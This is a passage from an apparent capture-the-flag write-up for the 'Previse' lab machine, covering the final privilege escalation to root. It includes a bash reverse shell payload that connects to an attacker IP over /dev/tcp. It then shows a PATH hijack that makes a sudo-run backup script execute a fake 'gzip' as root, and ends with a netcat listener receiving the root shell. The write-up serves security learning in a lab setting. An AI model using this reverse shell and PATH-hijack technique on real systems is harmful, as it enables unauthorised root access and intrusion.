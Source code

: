 ```code
drwxr-xr-x   4 root root  4096 Jul 27 15:04 boot
drwxr-xr-x   2 root root  4096 May 25 13:48 cdrom
drwxr-xr-x  19 root root  3880 Aug 13 07:44 dev
drwxr-xr-x  97 root root  4096 Jul 27 14:43 etc
drwxr-xr-x   3 root root  4096 May 25 14:59 home
lrwxrwxrwx   1 root root    34 Jul 27 14:42 initrd.img -> boot/initrd.img-4.15.0-151-generic
lrwxrwxrwx   1 root root    34 Jul 27 15:04 initrd.img.old -> boot/initrd.img-4.15.0-151-generic
drwxr-xr-x  21 root root  4096 Jul 26 18:41 lib
drwxr-xr-x   2 root root  4096 May 27 21:50 lib64
drwx------   2 root root 16384 May 25 13:47 lost+found
drwxr-xr-x   2 root root  4096 Aug  6  2020 media
drwxr-xr-x   2 root root  4096 Aug  6  2020 mnt
drwxr-xr-x   3 root root  4096 Jul 26 18:41 opt
dr-xr-xr-x 196 root root     0 Aug 13 07:44 proc
drwx------   6 root root  4096 Jul 28 09:11 root
drwxr-xr-x  27 root root   880 Aug 13 11:42 run
drwxr-xr-x   2 root root 12288 Jul 27 14:41 sbin
drwxr-xr-x   2 root root  4096 May 25 14:59 snap
drwxr-xr-x   2 root root  4096 Aug  6  2020 srv
dr-xr-xr-x  13 root root     0 Aug 13 07:44 sys
drwxrwxrwt  11 root root  4096 Aug 13 12:19 tmp
drwxr-xr-x  11 root root  4096 Jul 16 19:17 usr
drwxr-xr-x  14 root root  4096 Jul 26 18:41 var
lrwxrwxrwx   1 root root    31 Jul 27 14:42 vmlinuz -> boot/vmlinuz-4.15.0-151-generic
lrwxrwxrwx   1 root root    31 Jul 27 15:04 vmlinuz.old -> boot/vmlinuz-4.15.0-151-generic
m4lwhere@previse:/$ 
```
The payload that we will be using for reverse shell is:
```code
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.250/3000 0>&1
```
Afterwards, we will have to grant permissions to the ```gzip``` file and modify the ```$PATH``` environment variables so that the malicious script can be executed. Lastly, we will have to execute the ```/opt/scripts/access_backup.sh``` script to execute the reverse shell. 
```code
m4lwhere@previse:~$ cd /tmp
m4lwhere@previse:/tmp$ nano gzip
m4lwhere@previse:/tmp$ chmod 777 gzip
m4lwhere@previse:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:/tmp$ export PATH=$(pwd):$PATH
m4lwhere@previse:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

### Obtaining root flag
We will then receive the connection on the attacker's machine and we will be able to obtain the system flag
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 3000                                                       24 ⚙
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.11.104] 47604
root@previse:/tmp# cd /root
cd /root
root@previse:/root# cat root.txt
cat root.txt
<Redacted root flag>
root@previse:/root# 
```

